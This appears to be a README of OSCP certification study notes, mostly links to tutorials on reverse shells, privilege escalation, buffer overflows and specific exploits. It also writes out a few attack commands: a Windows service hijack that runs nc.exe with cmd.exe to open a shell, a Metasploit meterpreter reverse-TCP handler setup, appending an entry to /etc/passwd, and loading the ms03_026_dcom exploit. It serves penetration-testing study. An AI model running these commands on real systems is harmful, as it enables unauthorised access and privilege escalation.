 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

  sc qc upnphost
  sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
  sc config upnphost obj= ".\LocalSystem" password= ""
  sc qc upnphost
  net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
# Buffer Overflow 

What is buffer-overflow
https://www.youtube.com/watch?v=TsQufuT80uc

  # For Practicing
  1. Vanilla EIP 
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/
  2. SL Mail
https://www.youtube.com/watch?v=Pi51KlEulj4
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion
http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
msf>use exploit multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <local IP>
msf>set lport <local port>
msf> set ExitOnSession false
msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# Privilege Escalation
  1. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/
https://www.youtube.com/watch?v=iyhbLeOzegM

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/


To be Cont.......










  
  > use exploit/windows/dcerpc/ms03_026_dcom
  

